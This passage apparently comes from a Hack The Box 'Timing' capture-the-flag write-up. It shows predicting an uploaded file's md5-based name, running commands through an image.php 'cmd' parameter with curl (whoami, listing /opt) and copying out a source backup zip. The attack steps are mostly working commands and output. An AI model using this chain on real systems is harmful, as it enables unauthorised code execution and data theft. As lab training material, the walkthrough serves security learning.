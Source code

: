 ```text
Wed, 22 Dec 2021 17:21:43 GMT
```

We use this with our PHP like before:

```php
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed, 22 Dec 2021 17:21:43 GMT')) . '_pencer.jpg');
e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg
```

## Remote Code Execution

We now have the filename we can call remotely using curl. Let's test it with whoami:

```sh
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=whoami'
www-data
```

That works. However I spent a long time trying to get a reverse shell with no luck. Back to enumerating the file system and eventually I found this:

```sh
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=ls+-lsa+/opt' 
total 624
616 -rw-r--r--  1 root root 627851 Jul 20 22:36 source-files-backup.zip
```

A backup file, we definitely want to have a look at that. First copy it to the uploads folder that we have access to:

```sh
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=cp+/opt/source-files-backup.zip+/var/www/html/images/uploads/'
```

Now we can download it:

```sh
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/source-files-backup.zip' -o backup.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  613k    0  613k    0     0  1908k      0 --:--:-- --:--:-- --:--:-- 1910k
```

## Backup File Exploration
